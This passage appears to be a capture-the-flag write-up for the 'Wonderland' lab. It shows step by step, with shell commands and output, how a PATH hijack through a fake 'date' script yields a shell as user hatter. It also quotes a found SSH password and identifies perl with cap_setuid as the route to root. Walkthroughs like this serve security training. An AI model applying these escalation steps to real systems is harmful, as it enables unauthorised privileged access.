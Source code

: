 -> We know the command 'date' display the current date and time and The /bin/echo part specifies the full path to the echo command, which is located in the /bin directory.

 + Idea: We can manipulate 'date' to get the shell from that we can priv maybe base in the output we can figure out use we can priv is 'Hatter'
 + We priv escalation PATH because we could potentially hijack an application to run a script.
 + First echo $PATH and we know file 'teaParty' run 'date' default usr/local/bin.
 + The folder 'date' that will be easier to write to is probably /tmp. At this point because /tmp is not present in PATH so we will need to add it.

```bash
	rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH
	rabbit@wonderland:/home/rabbit$ echo $PATH
	/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

+ Go to /tmp and create the /date to spawn the shell:

```bash
	rabbit@wonderland:/tmp$ echo "/bin/bash" > date
	rabbit@wonderland:/tmp$ ls
	date
	systemd-private-120793e5ca52415f8fc37eb3662e100a-systemd-resolved.service-JfjlVt
	systemd-private-120793e5ca52415f8fc37eb3662e100a-systemd-timesyncd.service-lrgWNH
	rabbit@wonderland:/tmp$ chmod 777 date
	rabbit@wonderland:/tmp$ ls -l
	total 12
	-rwxrwxrwx 1 rabbit rabbit   10 Sep 12 09:50 date
	drwx------ 3 root   root   4096 Sep 12 07:50 systemd-private-120793e5ca52415f8fc37eb3662e100a-systemd-resolved.service-JfjlVt
	drwx------ 3 root   root   4096 Sep 12 07:50 systemd-private-120793e5ca52415f8fc37eb3662e100a-systemd-timesyncd.service-lrgWNH
	rabbit@wonderland:/tmp$ cd /home/rabbit/
	rabbit@wonderland:/home/rabbit$ ls
	teaParty
	rabbit@wonderland:/home/rabbit$ ./teaParty 
	Welcome to the tea party!
	The Mad Hatter will be here soon.
	Probably by hatter@wonderland:/home/rabbit$ id
	uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
-> Now we prived user 'Hatter'

+ Go to /hatter we find the 'password.txt'. That is password ssh of Hatter.
 -"hatter@WhyIsARavenLikeAWritingDesk?"
+ Login again ssh of Hatter
+ After priv through all user that call priv horizontal user1 -> user2. Finally, we can priv vertical to 'root'
+ Now we use the tool call 'linpeas.sh' to scan the vector PE
+ We found it - vector PE: 
	Files with capabilities (limited to 50):
	"/usr/bin/perl5.26.1 = cap_setuid+ep"
	/usr/bin/mtr-packet = cap_net_raw+ep
	"/usr/bin/perl = cap_setuid+ep"
-> That is Capabilities with '/usr/bin/perl'.
+ The reason why we need to priv to user 'Hatter' because /usr/bin/perl can just run under root or hatter.
